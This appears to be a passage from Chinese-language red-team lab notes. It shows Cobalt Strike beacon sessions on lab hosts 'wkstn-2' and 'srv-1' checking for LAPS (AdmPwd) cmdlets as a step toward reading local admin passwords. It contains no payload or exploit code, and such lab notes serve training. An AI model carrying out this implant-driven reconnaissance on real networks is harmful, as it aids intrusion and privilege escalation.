 ```
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS                                
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS  
```




在wkstn-2
```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 119 bytes
[+] received output:
#< CLIXML

CommandType     Name                                               Version    Source                                   
-----------     ----                                               -------    ------                                   
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS                                
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS                                
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS                                
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS   
```


假如在srv-1上运行上面命令,无任何显示
```
beacon> powershell Get-Command *AdmPwd*
[*] Tasked beacon to run: Get-Command *AdmPwd*
[+] host called home, sent: 119 bytes
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
srv-1

```
